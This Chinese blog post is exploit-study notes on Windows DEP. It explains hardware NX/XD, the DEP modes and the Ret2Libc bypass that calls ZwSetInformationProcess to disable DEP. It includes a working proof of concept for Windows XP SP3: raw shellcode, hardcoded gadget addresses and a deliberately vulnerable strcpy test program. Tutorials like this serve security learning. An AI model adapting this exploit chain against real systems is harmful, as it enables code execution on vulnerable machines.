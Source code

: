 ```yaml
---
title: 漏洞学习笔记-014-DEP的介绍
description: Windows的DEP保护和简单的攻击方法
slug: exploit-014
date: 2020-11-19 12:42:00+0800
categories:
    - Exploit
tags:
    - Windows
    - Exploit
---
```



本文来源：[Moeomu的博客](/p/exploit-014/)

## DEP的介绍

> 溢出攻击的根源是未准确区分数据和代码，但是重新设计计算机结构是不太可能的事情，所以使用各种办法去减缓溢出攻击

### 原理

- 将数据所在的内存页标为不可执行，而程序成功溢出进入shellcode时，CPU将会抛出执行异常
- DEP分为软件DEP和硬件DEP，而软件DEP指的是SafeSEH，硬件DEP在AMD平台上称为No-Execute Page-Protection(NX)，Intel平台上称为Execute Disable Bit(XD)
- 操作系统通过设置内存页的NX和XD标记，来指明不能从此执行代码，PageTable中插入一个标记来标识此页是否运行执行指令，0表示允许，1表示不允许

### DEP的工作状态

- Optin：允许系统组件和服务使用DEP，其它程序将不予保护，而用户可以通过ACT工具标记程序使用DEP，这种保护可以被程序动态关闭，多用于普通用户操作系统
- Output：为排除列表外的程序启用DEP，多用于服务器操作系统
- AlwaysOn：对所有的程序应用DEP保护，不可被关闭，只有64位操作系统才使用此模式
- AlwaysOff：一般不用

### 编译选项

> `/NXCOMPAT`编译选项将在PE头中设置`IMAGE_DLLCHARACTERISTICS_ NX_COMPAT`标识，位于`IMAGE_OPTIONAL_HEADER`中的`DllCharacteristics`，此值为`0x100`时表示启用DEP

## 利用Ret2Libc挑战DEP

### 原理

- DEP保护时溢出失败的原因是DEP检测到代码在非可执行页上执行，如果让程序直接跳转到一个已存在的系统函数中，必然不会被拦截
- `Ret2Libc`是`Return-to-libc`的简写，如果将每条exploit都找到一条在系统lib中的替代品，那么此exp一定可以正确执行，但问题在于不是每条指令都不包含0，不断的跳转容易跳错地方
- 以下是三个可行的方法
  - 跳转到`ZwSetinfomationProcess`函数将DEP关闭，转入shellcode执行
  - 跳转到`VirtualProtect`将shellcode页面设为可执行，随后转入shellcode执行
  - 跳转到`VirtualAlloc`申请一段可执行的内存空间随后跳入shellcode执行

### 尝试ZwSetinfomationProcess关闭DEP

#### 前置内容

- 一个进程的DEP标识存在于`KPROCESS`结构的`_KEXECUTE_OPTION`上，可以通过API函数修改

> `_KEXECUTE_OPTION`结构

```cpp
Pos0ExecuteDisable:1bit
Pos1ExecuteEnable:1bit
Pos2DisableThunkEmulation:1bit
Pos3Permanent:1bit
Pos4ExecuteDispatchEnable:1bit
Pos5ImageDispatchEnable:1bit
Pos6Spare:2bit
```

- 当前进程DEP开启的时候，`ExecuteDisable`将会被设置为1
- 当前进程DEP关闭的时候，`ExecuteEnable`将会被设置为1
- `DisableThunkEmulation`为了兼容ATL被设置
- `Permanent`被置1后表示这些标志都不能再被修改
- 我们只要将`_KEXECUTE_OPTIONS`的值设置为`0x02(00000010)`就可以将`ExecuteEnable`置为1

#### shellcode原理

- `LdrpCheckNXCompatibility`函数为了检查DEP兼容性，满足以下条件之一将可以关闭DEP
  - DLL受SafeDisc版权保护系统保护
  - DLL中含有`.aspack`，`.pcle`，`.sforce`等字节的时候
  - DLL存在于注册表声明的不需启用DEP的模块的时候`HKEY_LOCAL_MACHINE\SOFTWARE \Microsoft\ Windows NT\CurrentVersion\Image File Execution Options\DllNXOptions`

#### 代码

> 测试环境：系统：Windows XP SP3，DEP状态：Optout，编译器：VC6，编译选项：禁用优化，版本：release

```cpp
ULONG ExecuteFlags = MEM_EXECUTE_OPTION_ENABLE;

ZwSetInformationProcess(
    NtCurrentProcess(),     // Handle(-1)
    ProcessExecuteFlags,    //0x22
    &ExecuteFlags,          // ptr to 0x2
    sizeof(ExecuteFlags)    //0x4
);
```

```cpp
#include <string.h>
#include <windows.h>

char shellcode[] =
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x52\xE2\x92\x7C" // mov eax, 1
"\x96\x73\x1B\x5D" // mov ebp, esp & esp+8
"\x1E\xAD\x17\x5D" // esp+0x24
"\xB4\xC1\xC5\x7D" // jmp esp
"\x90\x90\x90\x90"
"\x24\xCD\x93\x7C" // call Close DEP
"\x90\x90\xE9\x2D" // jmp to shellcode start
"\xFF\xFF\xFF\x90"
;

void test()
{
    char tt[176];
    strcpy(tt,shellcode);
}

int main()
{
    HINSTANCE hInst = LoadLibrary("shell32.dll");
    char temp[200];
    test();

    return 0;
}
```

#### 技术细节

- 需要对比al是否为1，所以第一步retn将会返回到`mov eax, 1`，`retn`的地址，此地址将会返回到修缮ebp的位置
- 因为在调用函数之前，会访问ebp中的值，但是它已经被刷写掉了，所以将修缮ebp，在此使用了`push esp`，`pop ebp`，`retn`三条指令将esp中的地址赋值给ebp，由于retn后面跟着数字，因此ebp将会加上这个数字，也就是`ebp+8`，此时ebp小于esp了，一旦调用子程序将会对栈区进行破坏，所以依旧得将ebp再加上一些，我在此选择将esp加上0x24，与之前的0x8凑成了0x30的栈空间，这样在返回的时候将会返回到语句`retn 0x24`
- `retn 0x24`语句在返回的时候将会返回到调用关闭DEP的函数`ZwSetInformationProcess`的地方，调用完毕后将会使用leave语句并retn，因此它将会返回到`jmp esp`的地址处
- 由`jmp esp`跳转到`\x24\xCD\x93\x7C`数据存放的地址处，而此垃圾数据将不会影响shellcode的执行
- 在垃圾数据的后方写入一个跳转即可，至此跳到shellcode真实执行之处
